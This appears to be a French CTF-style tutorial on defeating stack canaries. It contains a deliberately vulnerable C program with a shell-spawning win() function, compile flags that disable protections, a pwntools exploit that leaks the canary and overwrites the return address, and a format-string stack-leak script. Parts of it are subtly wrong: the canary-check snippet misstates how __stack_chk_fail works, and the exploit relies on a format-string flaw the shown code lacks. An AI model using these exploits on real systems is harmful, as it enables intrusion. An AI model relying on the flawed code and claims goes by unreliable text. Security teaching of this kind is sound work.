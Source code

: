 
### Qu’est-ce qu’un Stack Canary ?

Un **canary** est une valeur aléatoire placée **juste avant l’adresse de retour** sur la pile pour détecter les dépassements de tampon. Avant de retourner de la fonction, le programme vérifie que le canary n’a pas été modifié :

```c
if (__stack_chk_fail()) {    
// le canary a été corrompu → crash 
}
```

---

## Comment contourner un Stack Canary ?

### Stratégie générale :

1. **Lire ou leaker** la valeur du canary (par exemple via une vulnérabilité format string ou une vulnérabilité d’infoleak).
    
2. **Réutiliser** la valeur du canary correcte dans le payload pour ne pas déclencher `__stack_chk_fail()`.
    
3. Ensuite, écraser l’adresse de retour comme dans un ret2win classique.
    

---

## Exemple 

### Objectif :

Contourner le canary pour appeler une fonction secrète (`win()`), sans que le programme plante.

### Code vulnérable (canary activé) :


```c
#include <stdio.h>
#include <string.h> 
void win() {     
system("/bin/sh");
} 

void vuln() {     
char buffer[64];     
printf("Entrez votre nom : ");     
fgets(buffer, 128, stdin); 
// Overflow potentiel    
printf("Bonjour %s\n", buffer); 
} 
int main() {  

vuln();     

return 0; }
```

### Compilation avec protections :

```c
gcc -o canary_example -fstack-protector-all -no-pie -z execstack canary.c
```

- Canary activé (`-fstack-protector-all`)
    
- Pas de PIE (pour simplifier)
    
- NX désactivé pour tester ROP si besoin
    

---

### Étapes d’exploitation :

#### 1. **Leaker le Canary**

Supposons qu'une vulnérabilité de type **format string** ou lecture hors limites nous permet de lire la pile. Exemple :

```c
printf(buffer); // vulnérable
```
`
On pourrait envoyer `%p %p %p %p %p %p ...` jusqu’à voir apparaître une valeur de 8 octets avec `00` en fin → probable canary.

#### 2. **Construire un Payload**

```c
from pwn import *

elf = ELF('./canary_example')

p = process('./canary_example')

# Leak via format string (exemple fictif)
p.sendline(b'%15$p')  # On suppose que l’offset du canary est à la 15e position
canary = int(p.recvline().strip(), 16)
log.success(f"Canary: {hex(canary)}")

# Construction du payload
payload = b'A' * 64        # buffer
payload += p64(canary)     # canary non modifié
payload += b'B' * 8        # junk for saved rbp
payload += p64(elf.symbols['win'])  # overwrite RIP

p.sendline(payload)
p.interactive()

```

---
### Script effectuer un format string :

```c
from pwn import *

context.binary = './format_leak_example'
context.log_level = 'info' 

def leak_stack():
    for i in range(1, 50): 
        p = process('./format_leak_example')
        payload = f'%{i}$p'.encode()
        p.sendlineafter('Entrez votre nom :', payload)
        try:
            leak = p.recvline(timeout=0.5).strip()
            print(f'[{i}] -> {leak.decode()}')
        except:
            print(f'[{i}] -> <no response>')
        p.close()

if __name__ == '__main__':
    leak_stack()
```



### Ce qu’il faut retenir :

- Le **canary** est une valeur de protection, mais il ne chiffre rien : si vous la connaissez, vous pouvez la réutiliser.
    
- Les **zéros finaux** dans le canary (`0x00xxxxxx...`) rendent son écriture impossible sans fuite ou format string.
    
- En CTF, un binaire avec `__stack_chk_fail` visible est un bon indice d’un **canary actif**.